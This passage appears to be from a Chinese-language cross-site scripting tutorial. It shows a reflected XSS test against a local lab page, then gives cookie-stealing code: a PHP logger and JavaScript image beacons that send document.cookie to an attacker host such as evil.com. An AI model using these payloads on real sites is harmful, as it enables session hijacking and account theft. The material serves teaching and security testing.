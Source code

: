 可以看到`?name=`后面的内容是我们可以控制和修改的

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210820225927.png)

构造攻击语句并执行

```
http://192.168.50.75/target_sys.com/xss/xss03.php?name=<script>alert("hacker");</script>
```

发现在目前的chrome和edge中无法执行成功。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210820231715.png)

找比较远古的ie浏览器来进行尝试，将浏览器中的`启用xss`筛选器禁用，则可以成功构造xss攻击。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210820232559.png)



## 利用

### 盗取cookie

#### php

```php
<?php
    @ini_set('display_errors',1);
    $str = $_GET['joke'];
    $filePath = "joke.php";
	$handler = fopen($filePath, "a");
    fwrite($handler, $str);
	fclose($handler);
?>
```

#### js

```js
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://ip/xss.php?joke='+encodeURIComponent(document.cookie);
```

```js
var img=document.createElement("img");
img.src="http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```



### 构造语句

**注意**：并非所有JavaScript payload都需要打开和关闭`<script>`标签。有一些HTML事件属性在触发时执行[JavaScript](https://www.w3schools.com/tags/ref_eventattributes.asp)。这意味着任何专门针对 Script 标签的规则都是无效的。例如，下列这些执行 JavaScript 的 HTML 事件属性就不使用` <script>`标签：
